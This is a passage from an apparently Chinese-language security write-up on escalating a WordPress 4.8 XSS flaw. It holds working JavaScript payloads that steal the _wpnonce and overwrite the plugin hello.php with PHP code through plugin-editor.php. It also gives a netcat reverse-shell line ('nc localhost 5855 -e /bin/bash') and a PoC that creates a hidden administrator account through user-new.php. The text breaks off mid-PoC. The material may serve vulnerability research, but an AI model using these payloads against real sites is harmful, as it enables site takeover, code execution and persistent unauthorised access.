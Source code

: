 这其中i参数固定，action参数为不同操作的函数名，uid为当前用户的id，token为当前用户cookie中的第三部分。

也就是说，即便不方便读取，我们也可以使用直接计算的方式来获得wpnonce的值，完成攻击。

这里我们使用从页面中读取wpnonce的方式，nonce在页面中是这样的

```
<input type="hidden" id="_wpnonce" name="_wpnonce" value="00b19dcb1a" />
```

代码如下

```
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '<?php phpinfo();?>';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);
```

通过这段js，我们可以向hello.php写入php code。

```
http://127.0.0.1/wordpress4.8/wp-content/plugins/hello.php
```

[![image.png-17.5kB](http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png)](http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png)

getshell，如果服务端权限没有做设置，我们可以直接system弹一个shell回来，导致严重的命令执行。

```
s = '<?=`nc localhost 5855 -e /bin/bash`;';
```

但正如XSS漏洞存在的意义，getshell或者rce本身都很难替代xss所能达到的效果，我们可以配合php的代码执行，来继续拓展xss的攻击面。

## xss的前端攻击

在wordpress中，对用户的权限有着严格的分级，我们可以构造请求来添加管理员权限的账号，用更隐秘的方式来控制整个站点。

poc:

```
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/user-new.php';
user = 'ddog';
pass = 'ddog';
email = 'ddog@ddog.com';

a = new XMLHttpRequest();
a.open('GET', url+p, 0);
a.send();

ss = '_wpnonce_create-user=' + /nonce_create-user" value="([^"]*?)"/.exec(a.responseText)[1] +
'&action=createuser&email='+email+'&pass1='+pass+'&pass1-text='+pass+'&pass2='+pass+'&pw_weak=on&role=administrator&user_login='+user;

```
